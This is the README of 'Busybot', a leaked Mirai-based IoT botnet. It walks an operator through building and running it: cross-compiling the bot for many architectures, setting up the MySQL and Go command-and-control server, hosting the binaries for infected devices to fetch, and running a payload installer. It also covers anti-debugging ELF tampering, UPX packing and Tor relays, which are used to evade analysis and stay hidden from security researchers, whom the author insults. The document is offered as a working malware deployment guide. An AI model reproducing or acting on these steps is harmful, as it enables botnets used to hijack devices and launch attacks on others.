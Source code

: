 ~ Busybot (1.6.a)

 - This isn't done, i only leaked it cause:
   A. shit source
   B. learning C++
   C. reason for motivation

 ~ Features:
   - Good evasion for standard library functions
   - Custom memory allocation
   - Fresh new attack parser
   - /proc/$pid/exe locker

 ~ Requirements:
   - CNC (recommended)
     - Ubuntu (x86)
     - 4GB Ram
     - 2vCores
     - 100MB Portspeed

   - Scan (recommended)
     - Debian (x86)
     - 6GB Ram
     - 4vCores
     - 1GB Portspeed

 ~ [1.0] Dependency installation:
   ```
   apt-get install gcc electric-fence wget mysql-server mysql-client apache2 screen golang -y
   ```

 ~ [1.1] Cross compiler installation:
 ```
   mkdir /etc/xcompile
   cd /etc/xcompile
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
   tar -jxf cross-compiler-armv4l.tar.bz2
   tar -jxf cross-compiler-i586.tar.bz2
   tar -jxf cross-compiler-m68k.tar.bz2
   tar -jxf cross-compiler-mips.tar.bz2
   tar -jxf cross-compiler-mipsel.tar.bz2
   tar -jxf cross-compiler-powerpc.tar.bz2
   tar -jxf cross-compiler-sh4.tar.bz2
   tar -jxf cross-compiler-sparc.tar.bz2
   rm *.tar.bz2
   mv cross-compiler-armv4l armv4l
   mv cross-compiler-i586 i586
   mv cross-compiler-m68k m68k
   mv cross-compiler-mips mips
   mv cross-compiler-mipsel mipsel
   mv cross-compiler-powerpc powerpc
   mv cross-compiler-sh4 sh4   
   mv cross-compiler-sparc sparc
```

 ~ [1.2] Cross compiler setup:
 ```
   nano ~/.bashrc -> Paste in the following lines:
   export PATH=$PATH:/etc/xcompile/armv4l/bin
   export PATH=$PATH:/etc/xcompile/armv6l/bin
   export PATH=$PATH:/etc/xcompile/i586/bin
   export PATH=$PATH:/etc/xcompile/m68k/bin
   export PATH=$PATH:/etc/xcompile/mips/bin
   export PATH=$PATH:/etc/xcompile/mipsel/bin
   export PATH=$PATH:/etc/xcompile/powerpc/bin
   export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
   export PATH=$PATH:/etc/xcompile/sh4/bin
   export PATH=$PATH:/etc/xcompile/sparc/bin
   function compile_bot {
       "$1-gcc" -std=c99 $3 bot/*.c -O3 -fomit-frame-pointer -fdata-sections -ffunction-sections -Wl,--gc-sections -o release/"$2" -DMIRAI_BOT_ARCH=\""$1"\"
       "$1-strip" release/"$2" -S --strip-unneeded --remove-section=.note.gnu.gold-version --remove-section=.comment --remove-section=.note --remove-section=.note.gnu.build-id --remove-section=.note.ABI-tag --remove-section=.jcr --remove-section=.got.plt --remove-section=.eh_frame --remove-section=.eh_frame_ptr --remove-section=.eh_frame_hdr
   }
```

~ [2.0] MySQL Setup:
```
   service mysql start
   mysql
```
     `USE mysql;`
     `ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password by 'mynewpassword';`
     `FLUSH PRIVILEGES;`
     `exit;`
```
   cat db.sql | mysql -pmynewpassword
```
 ~ [2.1] C&C Setup:
   - api/assets/config.json for editing the hosts
 
 ```
   cd api/
   go build
   rm -rf main.go core
   screen ./busybot
```

 ~ [2.3] Bot Setup:
   - tools/gen_keys.c for generating xor keus
   - tools/enc.c for encrypting strings
   - Change the domains in /bot/table.c (Set the domain to a onion domain if you want Tor)
   - Change the fake IP/Port in /bot/headers/includes.h
   - Change the SIP in /bot/headers/includes.h (single instance port)

```
   mkdir release/
   mkdir /var/www/html/bins
   compile_bot i586 x86 "-static"
   compile_bot mips mips "-static"
   compile_bot mipsel mpsl "-static"
   compile_bot armv4l arm "-static"
   compile_bot armv5l arm5n
   compile_bot armv6l arm7 "-static"
   compile_bot powerpc ppc "-static"
   compile_bot sparc spc "-static"
   compile_bot m68k m68k "-static"
   compile_bot sh4 sh4 "-static"
   compile_bot i586 dbg "-static -DDEBUG"
   cd release
   mv x86 mips mpsl arm arm5n arm7 ppc spc m68k sh4 /var/www/html/bins
```
 ~ [2.4] Elf corruption:
 ```
   gcc tools/anti_debug64.c -oantidbg64
   gcc tools/anti_debug32.c -oantidbg32
```
   => If the architecture is 32bit then use "antidbg32"
    > If the architecture is 64bit then use "antidbg64"
```
   ./antidbg64 release/<bin>
   ./antidbg32 release/<bin>
```
 ~ [2.5] UPX Packing:
```
   apt install upx -y
   upx -9 release/*
```

 ~ Payload installation (CentOS):
 ```
   yum install python2 python3 python3-pip python-pip -y
   python2 tools/payload.py
```

 ~ [3.0] Tor support:
   ~ Let's say you hate InfoSec/Journaling retards, and
     you don't want your botnet to be posted on krebs or
     MalwareMustDie, or stuff like that, what you could
     do is make your botnet completely decentralized and
     actually, busybot gives you complete support to do
     that, now you need 4 servers to do it, and follow
     along the steps.

```
   timedatectl set-timezone America/New_York
   apt install tor iptables ufw apt-transport-https -y

   ~ Now put the following lines in your repo list (/etc/apt/sources.list)
   deb http://deb.torproject.org/torproject.org focal main
   deb-src http://deb.torproject.org/torproject.org focal main

   wget -O- https://deb.torproject.org/torproject.org/A3C4F0F979CAA22CDBA8F512EE8CBC9E886DDD89.asc | sudo apt-key add -
   apt update && apt upgrade -y
   apt install tor deb.torproject.org-keyring -y
   nano /etc/tor/torrc
   ~ Now paste the following lines or find them and uncomment them out
   Nickname NodeNick
   ORPort 8040
   ExitRelay 0
   SocksPort 0
   ControlSocket 0
   ContactInfo your@email.com

   systemctl restart tor@default
   ufw allow 22; ufw allow 443; ufw allow 80; ufw allow 53; ufw allow 21; ufw allow 23
   ufw enable
```

   ~ It's quite recommennded to copy the Tor node keys
```
   scp -r root@200.200.200.200:/var/lib/tor/keys ./
```

   ~ Now your Tor node is: <SERVER IP>:<8040>
     Do this again 4 times on different servers.

